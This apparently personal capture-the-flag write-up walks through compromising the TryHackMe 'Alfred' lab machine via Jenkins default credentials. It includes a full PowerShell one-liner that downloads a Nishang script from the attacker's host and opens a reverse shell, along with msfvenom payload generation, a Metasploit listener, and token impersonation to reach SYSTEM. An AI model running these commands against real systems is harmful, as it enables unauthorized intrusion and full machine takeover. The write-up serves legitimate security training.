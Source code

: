 Room: [Alfred](https://tryhackme.com/room/alfred)

Difficulty: Easy

Overview: This room is a semi-guided challenge. We are going to exploit a Jenkins server, gain an initial shell, then escalate privileges by exploiting Windows authentication tokens with meterpreter module incognito.

------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we need to scan for all open ports using nmap, but since the machine doesn't respond to ping (ICMP) we need to adjust the scan:

```
nmap  -Pn -A -p- 10.10.101.250 -T4

-Pn   → Because the machine don't respond to ping
-A    → Enable OS detection, version detection, script scanning, and traceroute
-p-   → Scan all ports
-T4   → To speed the scan (this loses some accuracy), otherwise it would take more time to complete.
```

![Alfred_nmap_scan](https://user-images.githubusercontent.com/76821053/118020693-4ae2cd80-b352-11eb-8f5c-5e8250883d63.png)

The http at port 8080 hosted a jenkins server. We can try default credentials and this one was pretty simple.

![jenkins_8080](https://user-images.githubusercontent.com/76821053/118023732-c8f4a380-b355-11eb-8ea8-ee409d9ddc01.png)

We can created a new project inside Jenkins. At configurations we have a field called Build that let us do commands, so we can use the powershell command given by the room:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

In my case i used the below command, where i change the ip and port to match my machine.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://My_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress My_IP -Port 9001
```

To breakdown this command we can tell that the first part of the command will download a file from a specific website or server, in this case from my kali machine and the 
second part of the command tells the windows machine to execute it in order for us to get a reverse shell.

For this command to work and get a reverse shell on our machine we need to setup a few things:

-- Download Nishang "Invoke-PowerShellTcp.ps1" payload script provided by the room. Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security.

-- A python SimpleHTTPServer in order to host the file that the remote machine will try to download. We can do this by typing this command on a kali machine:

```
python -m SimpleHTTPServer
```

![pythonserver](https://user-images.githubusercontent.com/76821053/118032170-3fe26a00-b35f-11eb-919e-8483e5469701.png)

-- Start a netcat listener on the same port has the payload:

![nclistener](https://user-images.githubusercontent.com/76821053/118028995-9c438a80-b35b-11eb-8463-7b4c797b97d2.png)

After setting all up we just start a new project on jenkins server (in my case i called it admin), add the command to the build tab and just run it:   

![jenkinsproject](https://user-images.githubusercontent.com/76821053/118030688-88992380-b35d-11eb-89a6-74a434f02cb0.png)

We can see that the remote machine downloads the script and run it:

![pythonhttpserver](https://user-images.githubusercontent.com/76821053/118028046-85e8ff00-b35a-11eb-8d9c-32d510ae7b57.png)

Our listener recieves a reverse shell connection:

![image](https://user-images.githubusercontent.com/76821053/131248468-e25aedea-532e-4088-9712-9bd282dfeede.png)

To search for the flag or any specific file we can use the following command:

```
Get-ChildItem -Path C:\ -Recurse "user.txt" -ErrorAction SilentlyContinue

-Path  → Choose the path you want
-Recurse → To recursively search subdirectories  
-ErrorAction SilentlyContinue → To ignore errors
```

![image](https://user-images.githubusercontent.com/76821053/131248549-cfdf06bb-a839-4f28-9f46-be8db0b1e6e1.png)

We can now read the flag by using “type”:

![image](https://user-images.githubusercontent.com/76821053/131248555-010718a7-d90e-4611-bc37-c3073abb3be3.png)

Now let's upgrade our shell to a meterpreter one. To do so we need to create a payload:

```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -e x86/shikata_ga_nai -o payload.exe LHOST=YOUR_IP_ADDRESS LPORT=CHOOSE_A_PORT
```

![image](https://user-images.githubusercontent.com/76821053/131249292-4efa51fe-c0cf-4e8d-be24-6f5972d5d5ea.png)

In this case i created a meterpreter .exe payload encoded with shikata_ga_nai. If we check the size of the payload we can answer one of the questions of the room.

To upload this payload to the target machine we need once again to host this file in a SimpleHTTPServer:

![image](https://user-images.githubusercontent.com/76821053/131248806-8c6499d4-59d5-43bc-b641-eb9b2fa93b30.png)

From the target machine we can request it with this powershell command:

![image](https://user-images.githubusercontent.com/76821053/131248869-353d8387-5417-47f7-a09c-51b318e122e4.png)

Now that we have the payload ready we need to start a meterpreter listener. So we are going to fire up metasploit.

We need to change some parameters to match our payload, ip address and port:

```
use multi/handler  → Choose exploit, in this case a listener

set payload windows/meterpreter/reverse_tcp  →  Set the same payload used in the our msfvenom payload

set LHOST your_ip_address  →  Choose your ip address

set LPORT payload_chosen_port  → Choose the same port has the payload that we created with msfvenom

options  →  To list all the available options

run  →  To start the listener
```

![image](https://user-images.githubusercontent.com/76821053/131249057-b7e4e405-8711-4645-887c-04ef0d547e59.png)

On the target machine we just have to run the payload.exe file:

```
.\payload.exe 

or

Start-Process “payload.exe”
```

![image](https://user-images.githubusercontent.com/76821053/131249240-10687032-47d2-4c79-a18d-dd7dc907934a.png)

Moments after we got a shell on the meterpreter session:

![image](https://user-images.githubusercontent.com/76821053/131249265-80c1e8fb-2b93-49ee-883b-9b56e565f3c6.png)

If you want to change the meterpreter shell to a regular one you can just type "shell". And, to back out just type "exit".

Before we can actually take full control of the system we can check what privileges the current user has:

```
whoami /priv
```

![image](https://user-images.githubusercontent.com/76821053/131886602-0fc697f7-5ca3-4df8-894a-f08e82f7f6af.png)

If we look closely there are two important privileges (SeDebugPrivilege and SeImpersonatePrivilege) enabled. And by using a module call "incognito" we can take advantage of this privileges and privesc vertically to NT Authority.

To load a module just use:

```
load incognito
```

![image](https://user-images.githubusercontent.com/76821053/131887372-becfb5c2-539a-4afa-a0f1-cd01bace22bd.png)

Now we need to check what tokens are available and use the a function called "impersonate_token" command to impersonate the Administrators token:

```
list_tokens -g
```

![image](https://user-images.githubusercontent.com/76821053/131887656-15e5862a-4355-4821-8c80-5b759401133d.png)

Since "BUILTIN\Administrators" token is available we just need to impersonate it:

```
impersonate_token "BUILTIN\Administrators"
```

![image](https://user-images.githubusercontent.com/76821053/131887920-d1ce7a11-bb96-4fd8-8da4-495be871f94f.png)

Success we are now "NT Authority\System"!

We have to ensure that we migrate our process to a process with correct permissions where the process is running by "NT Authority\System":

To list processes:

```
ps
```

![image](https://user-images.githubusercontent.com/76821053/131888441-6f8e19e1-3c4f-44c1-8bbf-1852f2a38ad8.png)

Migrating to a different process:

```
migrate 668
```

![image](https://user-images.githubusercontent.com/76821053/131888518-ecc9cad4-06ac-432b-b450-5c4d607001d5.png)

Now that we currently have the right process and permissions we can read the final flag of the room.

The flag is at "C:\Windows\System32\config":

![image](https://user-images.githubusercontent.com/76821053/131888701-f366c4ac-635b-45f3-af90-413fc6cff4cd.png)





